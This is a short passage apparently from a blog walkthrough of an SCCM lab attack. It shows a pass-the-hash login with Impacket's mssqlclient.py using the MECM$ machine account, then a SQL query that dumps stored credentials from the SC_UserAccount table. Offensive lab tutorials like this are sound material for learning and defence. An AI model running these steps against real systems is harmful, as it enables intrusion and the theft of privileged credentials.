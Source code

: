 ![secrets_dump_mecm.png](/assets/blog/SCCM/secrets_dump_mecm.png)

- Next we will use the `MECM$` account to retrieve the credentials in database

```bash
mssqlclient.py -windows-auth -hashes 'aad3b435b51404eeaad3b435b51404ee:c8c42823ab75c8740c3a4ae7329b4d20' 'SCCMLAB/MECM$'@192.168.33.12
use CM_P01;
SELECT * FROM SC_UserAccount;
```

![sccm_get_credentials_db.png](/assets/blog/SCCM/sccm_get_credentials_db.png)
